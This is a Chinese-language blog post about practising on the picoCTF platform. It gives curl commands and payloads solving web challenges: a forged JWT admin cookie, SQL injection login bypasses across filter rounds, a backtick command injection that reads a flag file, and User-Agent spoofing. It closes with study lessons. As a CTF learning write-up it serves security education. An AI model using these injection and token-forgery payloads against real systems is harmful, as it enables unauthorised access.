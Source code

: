 ```yaml
---
title: picoCTF平台学习及使用
date: 2022-10-04 20:07:16
permalink: /pages/2362e9/
categories:
  - skill
  - tool
tags:
  - 
author: 
  name: JavaInterview.cn
  link: https://JavaInterview.cn
titleTag: Java
---
```


## 地址

    https://play.picoctf.org/practice

![](/media/pictures/skill/picoctf.png)

## 试题举例

列题举例：

一、JaWT Scratchpad	
    
    curl "https://jupiter.challenges.picoctf.org/problem/63090/"  -H "Content-Type: application/x-www-form-urlencoded"  --data "user=admin" -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1NzA5Njg2NDB9.77pnOGlEdwL7MtxHHS6ZKYD5z1O8w_-SFnzPGyNo9t8" -s | grep pico

二、Irish-Name-Repo 1
    
    curl "https://jupiter.challenges.picoctf.org/problem/33850/login.php" --data "username=admin'--&password=1" && echo

三、caas
    
    https://caas.mars.picoctf.net/cowsay/%60cat%20falg.txt%60


四、picobrowser

    curl --user-agent "picobrowser" "https://jupiter.challenges.picoctf.org/problem/26704/flag"

五、Client-side-again

    查看源代码拼装结果

六、dont-use-client-side

    根据规则拼装


七、web-gauntlet

    Round 1
    Filter: or
    Username: admin' --
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin' -- AND password='123'
    
    Round 2
    Filter: or and = like --
    Username: admin' union select * from users where '1
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='123'
    
    Round 3
    Filter: or and = like > < --
    Username: admin';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin';' AND password='123'
    
    Round 4
    Filter: or and = like > < -- admin
    Username: ad'||'min';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
    
    Round 5
    Filter: or and = like > < -- union admin
    Username: ad'||'min';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
    Flag
    All rounds have been passed, the page of round 6 says "Congrats! You won! Check out filter.php". Refresh filter.php again it shows the source code of filter.php and flag is at the end of the page.




## 总结
从picoctf平台中的思考

1.	查看源代码的方法
2.	根据规则拼装的方法
3.	Curl命令请求的方法
4.	Sql注入的方法
5.	谷歌百度的方法
6.	平时学英语的方法
7.	GitHub的方法
8.	年代及Tag的方法
9.	主次优先的方法
10.	懂得取舍的方法
11.	循序渐进的方法
12.	模拟环境的方法


对达克效应（高估自己现象）的理解
1. 轻装上阵
2. 空杯心态
3. 大道至简
4. 知行合一


